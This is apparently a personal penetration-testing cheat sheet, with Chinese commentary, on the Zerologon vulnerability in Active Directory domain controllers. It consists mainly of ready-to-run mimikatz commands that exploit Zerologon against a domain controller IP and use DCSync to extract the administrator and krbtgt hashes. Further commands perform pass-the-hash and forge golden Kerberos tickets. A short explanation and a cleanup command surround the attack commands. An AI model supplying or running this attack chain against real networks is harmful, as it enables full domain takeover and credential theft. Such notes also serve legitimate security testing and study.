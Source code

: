 ```bash

```

# Zerologon
```
工程師在寫加密程式時將金鑰全部設定為0所以叫做Zerologon
所以可以利用這個漏洞在沒有密碼的情況下登入DC拿到最高權限
Zerlogon完後會發動一個攻擊:DCSync，是AD的一個指令
DCSync是給系統用的，用於DC與DC之間的application

若拿到krbtgt => PtT
若拿到Admin  => PtH

ZeroLogon會把Computer Account上的密碼給Reset掉
很容易讓AD不穩，可以用postzerologon止血，但未必有用
```
Zerologon
```bash
# AD Win
# Local Admin可以改一下密碼效果比較好
# mimikatz需要用新版的

mimikatz

# Zerologon
lsadump::Zerologon /target:192.168.177.19 /account:server2019$ /null /ntlm /exploit


# dcsync
# Sync Administrator
lsadump::dcsync /authdomain:lpt /authuser:server2019$ /authpassword:"" /authntlm /domain:lpt.com /dc:server2019 /user:administrator
# Sync krbtgt
lsadump::dcsync /authdomain:lpt /authuser:server2019$ /authpassword:"" /authntlm /domain:lpt.com /dc:server2019 /user:krbtgt

# 幫DC止血
lsadump::postzerologon /target:192.168.177.19 /account:server2019$
```
Pass The Hash
```bash
# mimikatz
privilege::debug
sekurlsa::pth /user:Administrator /domain:lpt.com /ntlm:<HASH>
```
Pass The Ticket
```bash
kerberos::golden /domain:lpt.com /sid:<SID> /krbtgt:<HASH> /user:evil /ptt

kerberos::list

misc::cmd
klist
klist add_bind lpt.com server2019.lpt.com

> OR 
kerberos::golden /domain:lpt.com /sid:<SID> /krbtgt:<HASH> /user:evil /ticket:evil.tck
```

